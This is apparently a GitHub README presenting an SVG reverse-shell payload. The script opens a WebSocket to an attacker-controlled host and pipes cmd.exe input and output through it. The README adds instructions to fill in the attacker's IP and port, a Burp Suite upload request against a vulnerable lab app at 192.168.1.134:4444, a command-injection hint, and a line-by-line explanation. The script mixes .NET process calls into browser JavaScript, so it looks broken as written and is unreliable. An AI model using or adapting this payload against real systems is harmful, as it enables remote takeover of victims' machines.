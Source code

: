 # SVG Payload:

```
<svg xmlns="http://www.w3.org/2000/svg">
  <script>
    var host = 'Attacker_IP';
    var port = 'Attacker_Port';

    var s = new WebSocket('ws://' + host + ':' + port);
    s.onopen = function() {
      var proc = new Process();
      proc.StartInfo.FileName = 'cmd.exe';
      proc.StartInfo.RedirectStandardInput = true;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.StartInfo.UseShellExecute = false;
      proc.Start();
      var input = proc.StandardInput;
      var output = proc.StandardOutput;

      s.onmessage = function(event) {
        input.WriteLine(event.data);
      };

      setInterval(function() {
        var outputData = output.ReadToEnd();
        s.send(outputData);
      }, 100);
    };
  </script>
</svg>
```
## **Usage**: To use this payload, an attacker would:

- Replace `'Attacker_IP'` and `'Attacker_Port'` with the actual IP address and port of the attacker machine.

Upon opening the SVG file, the victim machine would establish a WebSocket connection to the attacker's server, enabling the attacker to execute commands on the victim's machine remotely.

## Example usage of the payload inside Burpsuite against Vulnerable Light App:
### Endpoint used:
- /Patch: Used to upload .svg files
- /Dns: Perform a DNS query for the Fully Qualified Domain Name (FQDN) passed as a parameter (`UserStr`). (Can be exploited by adding a '&' and executing our payload)

### Burpsuite PATCH request:
```
PATCH /Patch?t=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJJZCI6ImFkbWluIiwibmJmIjoxNzE0NjM3MjQ4LCJleHAiOjE3NDYxNzMyNDgsImlhdCI6MTcxNDYzNzI0OH0.0PjIKh8uqvHuxo1D1-JXWaq30JDXvNSfbUfKMcJ9f2o HTTP/1.1
Host: localhost:4000
Connection: keep-alive
Content-Length: 961
sec-ch-ua: "Brave";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY3yVHB1BGhc61AgN
X-Forwarded-For: 10.10.10.256
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-GPC: 1
Accept-Language: fr-FR,fr
Origin: https://localhost:4000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://localhost:4000/swagger/index.html
Accept-Encoding: gzip, deflate, br

------WebKitFormBoundaryY3yVHB1BGhc61AgN
Content-Disposition: form-data; name="file"; filename="pocXSS.svg"
Content-Type: image/svg+xml
  
    var host = '192.168.1.134';
    var port = '4444';

    var s = new WebSocket('ws://' + host + ':' + port);
    s.onopen = function() {
      var proc = new Process();
      proc.StartInfo.FileName = 'cmd.exe';
      proc.StartInfo.RedirectStandardInput = true;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.StartInfo.UseShellExecute = false;
      proc.Start();
      var input = proc.StandardInput;
      var output = proc.StandardOutput;

      s.onmessage = function(event) {
        input.WriteLine(event.data);
      };

      setInterval(function() {
        var outputData = output.ReadToEnd();
        s.send(outputData);
      }, 100);
    };
------WebKitFormBoundaryY3yVHB1BGhc61AgN--
```

## SVG Payload Explanation

This SVG payload is designed to create a reverse shell connection from a victim machine (eg. web-server) to an attacker-controlled server. Below is an explanation of how the payload works:

1. **SVG Declaration**: The payload starts with the XML declaration `xmlns="http://www.w3.org/2000/svg"`, indicating that it's an SVG (Scalable Vector Graphics) file.
    
2. **JavaScript Payload**: The payload contains JavaScript code embedded within a `<script>` element. This JavaScript code performs the following actions:
    
    - **Setting Up Connection Parameters**: It initializes variables `host` and `port` with the attacker's IP address and the port number where the attacker's WebSocket server is listening.
        
    - **WebSocket Connection**: It creates a WebSocket connection (`ws://`) to the attacker's server using the specified host and port. The `onopen` event handler is triggered when the connection is successfully established.
        
    - **Executing Command Shell**: Upon connection establishment, it creates a new process (`cmd.exe` for Windows) on the victim's machine. This process is configured to redirect standard input and output streams to allow interaction with the command shell.
        
    - **Handling Input and Output**: It sets up event handlers to handle incoming messages (`onmessage`) from the WebSocket server and periodically send the output of the command shell (`cmd.exe`) back to the attacker's server. This enables bi-directional communication between the attacker and victim machines.
        
    - **Interval for Output Sending**: To continuously send the command shell's output to the attacker, it sets up an interval function (`setInterval`) that periodically reads the output of the command shell and sends it over the WebSocket connection.
        
3. **Placeholder Values**: The payload includes placeholder values `'Attacker_IP'` and `'Attacker_Port'` for the attacker's IP address and port. These values should be replaced with the actual IP address and port of the attacker's WebSocket server.

